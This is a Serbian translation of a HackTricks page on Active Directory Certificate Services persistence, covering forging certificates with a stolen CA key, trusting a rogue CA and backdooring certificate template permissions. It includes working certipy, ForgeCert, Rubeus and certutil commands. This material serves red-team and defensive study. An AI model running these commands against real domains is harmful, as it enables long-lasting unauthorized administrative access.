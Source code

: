 # AD CS Postojanost domena

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Ovo je sažetak tehnika postojanosti domena koje su podeljene u [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)**. Proverite ga za dalje detalje.

## Forgeovanje sertifikata sa ukradenim CA sertifikatima - DPERSIST1

Kako možete da utvrdite da li je sertifikat CA sertifikat?

Može se utvrditi da je sertifikat CA sertifikat ako se ispunjavaju nekoliko uslova:

- Sertifikat je smešten na CA serveru, sa svojim privatnim ključem obezbeđenim DPAPI mašine, ili hardverom kao što je TPM/HSM ako operativni sistem to podržava.
- Polja Izdavača i Subjekta sertifikata se podudaraju sa razlikovanim imenom CA.
- "CA verzija" ekstenzija je prisutna isključivo u CA sertifikatima.
- Sertifikat nema polja Proširene upotrebe ključa (EKU).

Da biste izvukli privatni ključ ovog sertifikata, podržana metoda putem ugrađenog grafičkog korisničkog interfejsa je alatka `certsrv.msc` na CA serveru. Međutim, ovaj sertifikat se ne razlikuje od ostalih smeštenih u sistemu; stoga se mogu primeniti metode poput [THEFT2 tehnike](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) za izvlačenje.

Sertifikat i privatni ključ mogu se takođe dobiti korišćenjem Certipy sa sledećom komandom:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
Nakon što ste dobili CA sertifikat i njegov privatni ključ u `.pfx` formatu, alati poput [ForgeCert](https://github.com/GhostPack/ForgeCert) mogu se koristiti za generisanje validnih sertifikata:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
Korisnik koji je cilj za falsifikovanje sertifikata mora biti aktivan i sposoban da se autentifikuje u Active Directory-u da bi proces bio uspešan. Falsifikacija sertifikata za posebne naloge poput krbtgt je neefikasna.
{% endhint %}

Ovaj falsifikovani sertifikat će biti **važeći** do navedenog datuma isteka i **sve dok je sertifikat korenskog CA važeći** (obično od 5 do **10+ godina**). Takođe je važeći za **mašine**, pa uz pomoć **S4U2Self**, napadač može **održavati postojanost na bilo kojoj mašini u domenu** sve dok je sertifikat CA važeći.\
Osim toga, **generisani sertifikati** ovom metodom **ne mogu biti povučeni** jer CA nije svestan njihovog postojanja.

## Poverenje u lažne CA sertifikate - DPERSIST2

Objekat `NTAuthCertificates` je definisan da sadrži jedan ili više **CA sertifikata** unutar svog atributa `cacertificate`, koji koristi Active Directory (AD). Proces verifikacije od strane **kontrolera domena** uključuje proveru objekta `NTAuthCertificates` za unos koji se podudara sa **CA koji je naveden** u polju Izdavač autentičnog **sertifikata**. Autentifikacija se nastavlja ako se pronađe podudaranje.

Napadač može dodati samopotpisani CA sertifikat u objekat `NTAuthCertificates`, pod uslovom da ima kontrolu nad ovim AD objektom. Obično samo članovi grupe **Enterprise Admin**, zajedno sa **Domain Admins** ili **Administratorima** u **korenskom domenu šume**, imaju dozvolu da izmene ovaj objekat. Oni mogu izmeniti objekat `NTAuthCertificates` koristeći `certutil.exe` sa komandom `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`, ili korišćenjem [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool).

Ova mogućnost je posebno relevantna kada se koristi u kombinaciji sa prethodno opisanom metodom koja uključuje ForgeCert za dinamičko generisanje sertifikata.

## Zlonamerna konfiguracija - DPERSIST3

Mogućnosti za **postojanost** putem **modifikacija bezbednosnog opisa komponenti AD CS** su brojne. Modifikacije opisane u odeljku "[Domain Escalation](domain-escalation.md)" mogu biti zlonamerne implementirane od strane napadača sa povišenim pristupom. To uključuje dodavanje "kontrolnih prava" (npr. WriteOwner/WriteDACL/itd.) osetljivim komponentama kao što su:

- **Računar AD servera CA**
- **RPC/DCOM server AD servera CA**
- Bilo koji **potomak AD objekta ili kontejnera** u **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (na primer, kontejner Certificate Templates, kontejner Certification Authorities, objekat NTAuthCertificates, itd.)
- **AD grupe kojima su podrazumevano delegirana prava za kontrolu AD CS** ili od strane organizacije (kao što je ugrađena grupa Cert Publishers i bilo koji od njenih članova)

Primer zlonamerne implementacije uključuje napadača koji ima **povišene dozvole** u domenu, dodavanje dozvole **`WriteOwner`** na podrazumevani **`User`** šablon sertifikata, pri čemu je napadač princip za tu dozvolu. Da bi iskoristio ovo, napadač bi prvo promenio vlasništvo šablona **`User`** na sebe. Nakon toga, **`mspki-certificate-name-flag`** bi bio postavljen na **1** na šablonu da bi se omogućilo **`ENROLLEE_SUPPLIES_SUBJECT`**, što omogućava korisniku da pruži alternativno ime subjekta u zahtevu. Nakon toga, napadač bi mogao da se **upiše** koristeći **šablon**, birajući ime **administratora domena** kao alternativno ime, i koristiti dobijeni sertifikat za autentifikaciju kao DA.

